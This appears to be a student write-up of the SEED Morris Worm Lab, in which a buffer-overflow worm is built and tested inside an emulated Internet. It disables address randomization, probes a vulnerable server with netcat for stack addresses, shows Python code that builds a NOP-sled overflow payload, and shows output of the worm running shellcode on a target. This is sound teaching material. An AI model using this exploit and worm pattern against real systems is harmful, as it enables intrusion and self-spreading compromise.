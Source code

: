 # The Morris Worm Lab

The Morris worm (November 1988) was one of the oldest computer worms distributed via the Internet, and the first to gain significant mainstream media attention [1]. While it is old, the techniques used by most worms today are still the same, such as the WannaCry ransomware in 2017. They involve two main parts: attack and self-duplication. The attack part exploits a vulnerability (or a few of them), so a worm can get entry to another computer. The self-duplication part is to send a copy of itself to the compromised machine, and then launch the attack from there. A detailed analysis of the Morris worm was given by Spafford [2]. The goal of this lab is to help students gain a better understanding of the behavior of worms, by writing a simple worm and testing it in a contained environment (an Internet emulator). Although the title of this lab is called Morris worm, the underneath technique used is quite generic. We have broken down the technique into several tasks, so students can build the worm incrementally. For testing, we built two emulated Internets, a small one and a larger one. Students can release their worms in each of these Internets, and see how their worms spread across the entire emulated Internet. The lab covers the following topics:

- Buffer-overflow attack
- Worm’s self-duplication and propagation behavior
- The SEED Internet emulator
- Network tools

## Task 1: Attack the First Target

The worm exploit the Buffer-overflow vulnerability to allow the worm to run on the target machine.

### Step 1: Disable the Address Randomization

> Note: This kernel parameter is global, so once we turn it off from the host machine, all the containers are affected.

```bash
sudo /sbin/sysctl -w kernel.randomize_va_space=0 
```

All the non-router containers in the emulator run the **same vulnerable server**. With the address randomization disabled, all the servers will have the identical parameters, the addresses of the buffer and the value of the frame pointers will be the same across all the containers. The attack part is the same as the Level-1 task in the Buffer-Overflow Lab, so if students have worked on that lab before, they can reuse the code from that lab here. We will not duplicate the instruction in this lab. Students can read the lab description of the Buffer-Overflow Lab (server version) to learn the setup of the server and the guidelines on the attack.

### Step 2: Generate the malicious payload for the buffer-overflow attack

#### Attack Idea

![](assets/buffer_overflow_attack.png)

#### 2.1. send a hello message to the target server for getting the address of the buffer and the frame pointer. The server will print out the address of the buffer and the frame pointer. The server will also print out the size of the input message. The address of the buffer and the frame pointer are printed in hexadecimal format.

```bash
root@7e27f0bf5973:/# echo hello | nc -w2 10.151.0.71 9090
as151h-host_0-10.151.0.71           | Starting stack
as151h-host_0-10.151.0.71           | Input size: 6
as151h-host_0-10.151.0.71           | Frame Pointer (ebp) inside bof():  0xffffd5e8
as151h-host_0-10.151.0.71           | Buffer's address inside bof():     0xffffd578
as151h-host_0-10.151.0.71           | ==== Returned Properly ====
```

#### 2.2 Craft the malicious payload for injecting the shellcode into the target server.

code snippet:

```python
def createBadfile():
   content = bytearray(0x90 for i in range(500))
   ##################################################################
   # Put the shellcode at the end
   content[500-len(shellcode):] = shellcode

   base_pointer   = 0xffffd5e8
   buffer_address = 0xffffd578

   offset = base_pointer - buffer_address + 4
   ret    = buffer_address + 500 - len(shellcode)

   content[offset:offset + 4] = (ret).to_bytes(4,byteorder='little')
   ##################################################################

   # Save the binary code to file
   with open('badfile', 'wb') as f:
      f.write(content)
```

#### 2.3. Run the attack

```bash
root@f2c7a61d156d:~# ./worm.py
The worm has arrived on this host ^_^
**********************************
>>>>> Attacking 10.151.0.71 <<<<<
**********************************
PING 1.2.3.4 (1.2.3.4) 56(84) bytes of data.
```

Server Output:

```bash
as151h-host_0-10.151.0.71           | Starting stack
as151h-host_0-10.151.0.71           | (^_^) Shellcode is running (^_^)
```

#### DEMO


